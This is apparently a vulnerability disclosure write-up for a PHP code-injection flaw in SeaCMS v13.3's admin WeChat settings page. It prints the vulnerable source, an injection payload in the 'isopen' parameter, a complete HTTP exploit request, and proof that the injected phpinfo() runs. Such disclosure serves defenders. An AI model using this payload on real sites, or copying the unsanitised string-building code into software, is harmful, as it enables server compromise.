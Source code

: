 ## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_weixin.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Debugging Analysis and Exploitation

The latest version v13.3 of SeaCMS contains a command execution vulnerability.  
The vulnerability is in the `0omeqd\admin_weixin.php` file, where the `isopen` parameter is vulnerable to PHP code concatenation.  
![](./public/3.png)

The full source code of this file is as follows:
```php
<?php
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__) . "/config.php");
CheckPurview();
if ($action == "set") {
	$isopen = $_POST['isopen'];
	$title = htmlspecialchars($_POST['title']);
	$url = $_POST['url'];
	$ckmov_url = $_POST['ckmov_url'];
	$follow = htmlspecialchars($_POST['follow']);
	$noc = htmlspecialchars($_POST['noc']);
	$dpic = $_POST['dpic'];
	$help = htmlspecialchars($_POST['help']);
	$topage = $_POST['topage'];
	$sql_num = intval($_POST['sql_num']);
	$dwz = $_POST['dwz'];
	$dwztoken = $_POST['dwztoken'];

	$msg1a = $_POST['msg1a'];
	$msg1b = $_POST['msg1b'];
	$msg2a = $_POST['msg2a'];
	$msg2b = $_POST['msg2b'];
	$msg3a = $_POST['msg3a'];
	$msg3b = $_POST['msg3b'];
	$msg4a = $_POST['msg4a'];
	$msg4b = $_POST['msg4b'];
	$msg5a = $_POST['msg5a'];
	$msg5b = $_POST['msg5b'];

	$open = fopen("../data/admin/weixin.php", "w");
	$str = '<?php  ';

	$str .= 'define("isopen", "';
	$str .= "$isopen";
	$str .= '"); ';
	$str .= 'define("title", "';
	$str .= "$title";
	$str .= '"); ';

	$str .= 'define("url", "';
	$str .= "$url";
	$str .= '"); ';

	$str .= 'define("ckmov_url", "';
	$str .= "$ckmov_url";
	$str .= '"); ';

	$str .= 'define("follow", "';
	$str .= "$follow";
	$str .= '"); ';

	$str .= 'define("noc", "';
	$str .= "$noc";
	$str .= '"); ';

	$str .= 'define("dpic", "';
	$str .= "$dpic";
	$str .= '"); ';

	$str .= 'define("help", "';
	$str .= "$help";
	$str .= '"); ';

	$str .= 'define("topage", "';
	$str .= "$topage";
	$str .= '"); ';

	$str .= 'define("dwz", "';
	$str .= "$dwz";
	$str .= '"); ';

	$str .= 'define("dwztoken", "';
	$str .= "$dwztoken";
	$str .= '"); ';

	$str .= 'define("sql_num", "';
	$str .= "$sql_num";
	$str .= '"); ';

	$str .= 'define("msg1a", "';
	$str .= "$msg1a";
	$str .= '"); ';
	$str .= 'define("msg1b", "';
	$str .= "$msg1b";
	$str .= '"); ';

	$str .= 'define("msg2a", "';
	$str .= "$msg2a";
	$str .= '"); ';
	$str .= 'define("msg2b", "';
	$str .= "$msg2b";
	$str .= '"); ';

	$str .= 'define("msg3a", "';
	$str .= "$msg3a";
	$str .= '"); ';
	$str .= 'define("msg3b", "';
	$str .= "$msg3b";
	$str .= '"); ';

	$str .= 'define("msg4a", "';
	$str .= "$msg4a";
	$str .= '"); ';
	$str .= 'define("msg4b", "';
	$str .= "$msg4b";
	$str .= '"); ';

	$str .= 'define("msg5a", "';
	$str .= "$msg5a";
	$str .= '"); ';
	$str .= 'define("msg5b", "';
	$str .= "$msg5b";
	$str .= '"); ';

	$str .= " ?>";
	fwrite($open, $str);
	fclose($open);
	ShowMsg("Settings saved successfully!", "admin_weixin.php");
	exit;
}
```

In the web page, this is part of the system's WeChat official account settings in the backend. We click "Confirm" and intercept the request using a proxy tool.
![](./public/4.png)

We send the `isopen` parameter and inject PHP code. The payload is as follows (note that the request needs to be URL-encoded):
```r
isopen=n");phpinfo();define("isopen", "n
```
![](./public/5.png)

The complete HTTP request is as follows:
```http
POST /0omeqd/admin_weixin.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1216
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_weixin.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

isopen=n")%3bphpinfo()%3bdefine("isopen",+"n&url=https%3A%2F%2Fwww.seacms.com&title=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86&ckmov_url=https%3A%2F%2Fwww.seacms.com%2Fvip.php%3Furl%3D+&dpic=https%3A%2F%2Fwww.seacms.com%2Fapi%2Fwx.jpg&follow=%E6%84%9F%E8%B0%A2%E6%82%A8%E7%9A%84%E5%85%B

3%E6%B3%A8%E3%80%82&noc=%E6%9A%82%E6%97%A0%E4%BD%A0%E8%A6%81%E7%9A%84%E5%86%85%E5%AE%B9%E3%80%82&help=%E8%BF%99%E6%98%AF%E5%B8%AE%E5%8A%A9%E4%BF%A1%E6%81%AF%E3%80%82&topage=d&dwz=n&dwztoken=dwztoken&sql_num=15&msg1a=%E5%85%B3%E9%94%AE%E8%AF%8D1&msg1b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B91&msg2a=%E5%85%B3%E9%94%AE%E8%AF%8D2&msg2b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B92%3Ca+href%3D%27http%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%E6%B5%8B%E8%AF%95%3C%2Fa%3E%EF%BC%8C%E6%B5%8B%E8%AF%95%E7%BB%93%E6%9D%9F%E3%80%82&msg3a=%E5%85%B3%E9%94%AE%E8%AF%8D3&msg3b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B93&msg4a=%E5%85%B3%E9%94%AE%E8%AF%8D4&msg4b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B94&msg5a=%E5%85%B3%E9%94%AE%E8%AF%8D5&msg5b=%3Ca+href%3D%27https%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%3C%2Fa%3E
```

Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.
![](./public/6.png)


After accessing the PHP path, the injected PHP code is successfully executed:
![](./public/7.png)

```r
data/admin/weixin.php
```
![](./public/8.png)
